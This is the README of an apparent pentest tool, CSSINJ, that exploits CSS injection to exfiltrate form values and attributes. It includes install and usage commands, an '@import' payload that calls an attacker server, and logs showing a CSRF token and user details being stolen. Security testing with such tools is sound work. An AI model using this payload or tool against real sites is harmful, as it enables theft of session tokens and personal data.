 ```yaml
---

# CSSINJ  

```
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|
```

## About  

**CSSINJ** is a penetration testing tool that exploits [**CSS injection vulnerabilities**](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection) to exfiltrate sensitive information from web applications. This tool is designed for security professionals to assess the security posture of web applications by demonstrating how CSS can be used to extract data covertly.  


## Installation  

To install and set up **CSSINJ** from Source, run the following commands:  

```bash
git clone https://github.com/DonAsako/CSSinj.git
cd CSSinj
python3 -m venv venv  
source venv/bin/activate
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade build
python3 -m build
python3 -m pip install .
```

Now you’re ready to use **CSSINJ**! 🎯  

## Usage  

```bash
python3 -m cssinj [-h] -H HOSTNAME -p PORT -i IDENTIFIER
```

### Options  

| Option                 | Description                                 |
|------------------------|---------------------------------------------|
| `-h, --help`           | Show help message and exit                  |
| `-H, --hostname`       | Attacker hostname or IP address             |
| `-p, --port`           | Port number of the attacker                 |
| `-i, --identifier`     | CSS identifier to extract data              |
| `-s, --selector`       | CSS Attribute Selector for exfiltration     |
| `-d, --details`        | Show detailed logs of the exfiltration process, including extracted data |

### Example  

#### Victim's View :
```html
<input type="text" id="username" value="admin" disabled>
<input type="email" id="email" value="admin@admin.XX" disabled>
<input type="text" class="csrf" value="MySecretAdminToken" hidden>
<img src="XXXXXXXXXXX.XX">
...
```

<style>
  @import url('//localhost:5005/start');
</style>
...
```

#### Using a specific CSS identifier : 

```bash
~ python3 CSSINJ.py -H 127.0.0.1 -p 5005 -i input
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 02:40:55] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 02:40:56] 🌐 Connection from ::1
[2025-03-11 02:40:56] ⚙️ ID : 1
[2025-03-11 02:40:56] ✅ The value exfiltrated from input is : MySecretAdminToken
[2025-03-11 02:40:56] ✅ The value exfiltrated from input is : admin@admin.XX
[2025-03-11 02:40:56] ✅ The value exfiltrated from input is : admin
```

#### Using a specific CSS attribute selector and a generic CSS identifier:

```bash
~ python3 CSSINJ.py -H 127.0.0.1 -p 5005 -i \* -s src
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ⚙️ ID : 1
[2025-03-11 03:06:49] ✅ The src exfiltrated from * is : XXXXXXXXXXX.XX
```

## Browser-Specific Behavior

The success of CSS injection attacks using @import depends on the browser's handling of CSS imports:
- Chromium-based browsers (Chrome, Edge, Brave, etc.) allow recursive CSS imports and will process the injected styles, making them vulnerable to exfiltration techniques using @import.

- Firefox, however, handles @import differently:
  - Unlike Chromium-based browsers, Firefox processes all @import rules before applying any styles.
  - As a result, the attack fails because the browser never processes the CSS selectors, preventing data exfiltration.
  - This behavior causes an infinite loop where the browser keeps waiting for a CSS update that never happens.

This difference in behavior makes Chromium-based browsers more susceptible to CSS injection exfiltration, while Firefox provides better protection against such attacks.

## Todo
- [ ] Add injection parameters
- [ ] Implement automatic detection of CSS injection vulnerabilities
- [ ] Add an option to save results to a file
- [ ] Add custom payload
- [ ] Allow multiple CSS selectors for simultaneous extraction

## Disclaimer  

This tool is intended **only for ethical hacking and security research**. **Unauthorized use on systems without explicit permission is illegal**. The developer **is not responsible** for any misuse of this tool.  

## Author  

**CSSINJ** was developed by **Asako**.  

